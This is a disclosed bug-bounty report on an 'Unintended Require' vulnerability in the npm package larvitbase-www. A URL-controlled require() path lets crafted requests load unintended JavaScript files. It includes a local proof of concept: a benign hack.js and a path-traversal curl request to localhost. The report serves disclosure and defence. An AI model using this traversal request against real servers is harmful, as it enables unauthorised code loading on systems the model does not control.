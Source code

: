 # [larvitbase-www] Unintended Require

## Report Details
- **Report ID**: 579560
- **URL**: https://hackerone.com/reports/579560
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-05-14T00:11:14.279Z
- **Disclosed**: 2019-09-03T11:18:13.527Z

## Reporter
- **Username**: ermilov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report Unintended Require vulnerability in `larvitbase-www`
It is similar to bug found here #566056 because the module is maintained by the same developer, but it is a different module and the code behind the vulnerability is different.
It allows loading arbitary non-production code (js files).

# Module

**module name:** larvitbase-www
**version:** 0.7.5
**npm page:** `https://www.npmjs.com/package/larvitbase-www`

## Module Description

Website base framework based on larvitbase (https://github.com/larvit/larvitbase)

## Module Stats

20 downloads in the last day
72 downloads in the last week
651 downloads in the last month

# Vulnerability

## Vulnerability Description

`larvitbase-www` is an HTTP server which dynamically loads (with help of `require()`) some parts of the code. As long as the path to required module is partially depend on the url (req.urlBase), anybody can cause code to load that was not intended to run on the server.

source code example:

https://github.com/larvit/larvitbase-www/blob/master/index.js#L336
```
require(req.routed.controllerFullPath)(req, res, cb);
```

Detailed description of this bug can be found here: https://nodesecroadmap.fyi/chapter-1/threat-UIR.html

## Steps To Reproduce:

* create directory for testing
```
mkdir poc
cd poc/
```

* install package
```
npm i larvitbase-www
```

* create index.js file with default usage of larvitbase-www

index.js (example code form https://www.npmjs.com/package/larvitbase-www)
```
const	App	= require('larvitbase-www');
 
let	app;
 
app = new App({
    'baseOptions':	{'httpOptions': 8001},
    'routerOptions':	{},
    'reqParserOptions':	{},
});
 
app.start(function (err) {
    if (err) throw err;
});
```

* create hack.js file with some arbitary code for testing

hack.js
```
console.log('pwned');
```

* start index.js
```
node index.js
```

* send crafted request to web app (localhost:8001 by deafult) in order to force using of hack.js script
```
curl --path-as-is 'http://localhost:8001/../hack'
```

* index.js should log something like this to terminal:
```
pwned
                        require(req.routed.controllerFullPath)(req, res, cb);
TypeError: require(...) is not a function
```

## Patch

## Supporting Material/References:

- OS: Linux Mint current
- Node.js: 8.11.1
- NPM: 6.4.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

An attacker is able to control the x in require(x) and cause code to load that was not intended to run on the server.

## Attachments
No attachments
